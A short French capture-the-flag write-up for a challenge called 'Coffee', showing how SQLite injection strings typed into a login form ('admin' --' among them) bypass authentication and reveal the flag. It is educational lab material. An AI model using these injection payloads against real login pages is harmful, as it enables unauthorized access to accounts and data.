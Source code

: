 # WriteUp Coffee

Url du challenge: https://coffee.0xhorizon.eu/

On se retrouve sur une page de login.
On test des login/password classic pour voir(ex: admin/admin, root/root).Rien de bien fou toujours le même message.

## SQL Injection

Essayons une injection sql en **sqlite** pour bypass cette page de connexion:

- **login**: `1' or 1=1 --` -- sont présent pour commenter le reste de la requête.
- **password**: `a` champ obligatoire.

Message:

```bash
Hello user1
Your message: I want coffee...
```

Victoire on a reussit à faire une injection cependant on a pas le bon user.
Essayons la même avec le login admin:

- login: `admin' or 1=1 --`
- password: `a`

Message:

```bash
There is not any user with an username or a password so long :(
```

Ahhh on est limité en therme de caractère.
testons encore plus simple:

- login: `admin' --`
- password: `a`

Message:

```bash
Hello admin
Your message: Coffee code: horiz0nx{FLAG}
```

GG!